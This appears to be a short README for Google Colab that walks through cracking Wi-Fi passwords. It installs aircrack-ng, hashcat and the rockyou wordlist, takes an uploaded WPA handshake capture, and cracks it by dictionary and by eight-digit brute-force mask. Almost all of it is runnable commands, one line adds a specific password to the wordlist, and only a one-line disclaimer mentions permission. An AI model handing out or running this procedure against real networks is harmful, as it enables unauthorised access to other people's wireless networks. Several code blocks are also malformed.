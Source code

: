 # Wi-Fi Cracking Setup

## Steps

1. **Check GPU**  
   ```bash
   !nvidia-smi

2. **Install Essentials**
   ```bash
   !apt update -y
   !apt install cmake build-essential libtool libnl-3-dev libnl-genl-3-dev hcxtools -y
   !apt install checkinstall git -y

   
3. **Install Aircrack-ng & Wordlist
   ```bash
   !git clone --recursive https://github.com/aircrack-ng/aircrack-ng
   !cd aircrack-ng && ./autogen.sh
   !cd aircrack-ng && make
   !cd aircrack-ng && wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
   !echo wroclaw222 >> aircrack-ng/rockyou.txt

   
4. **Install Hashcat & Utilities
   ```bash
   !git clone https://github.com/hashcat/hashcat.git && cd hashcat && make && make install
   !git clone https://github.com/hashcat/hashcat-utils && cd hashcat-utils && git submodule update --init && cd src && make

   
5. **Upload .cap File**
   ```bash
    from google.colab import files
    !mkdir cap_files
    uploaded = files.upload()
    
    for f_name in uploaded.keys():
        print('User uploaded file "{name}" with length {length} bytes'.format(name=f_name, length=len(uploaded[f_name])))
    !mv {f_name} "/content/cap_files/cap.cap"


6. **Crack with Aircrack-ng**
   ```python
   !cd /content/aircrack-ng && ./aircrack-ng -w ./rockyou.txt /content/cap_files/cap.cap


7. ***Convert .cap and Crack with Hashcat**
   ```bash
   !mkdir hc22000
   !hcxpcapngtool -o /content/hc22000/bruteforce.hc22000 /content/cap_files/cap.cap
   !hashcat -m 22000 -a 0 /content/hc22000/bruteforce.hc22000 /content/aircrack-ng/rockyou.txt


8. **Optional:** Convert to .hccapx and Run Hashcat
   ```bash
   !mkdir hccapx_files
   !./hashcat-utils/src/cap2hccapx.bin /content/cap_files/cap.cap /content/hccapx_files/272307.hccapx
   !hashcat --deprecated-check-disable -m 2500 -a 3 -w 3 /content/hccapx_files/272307.hccapx ?d?d?d?d?d?d?d?d


**Note:** Adjust paths and wordlists as needed. Use at your own risk and only against networks you own or have explicit permission to test.
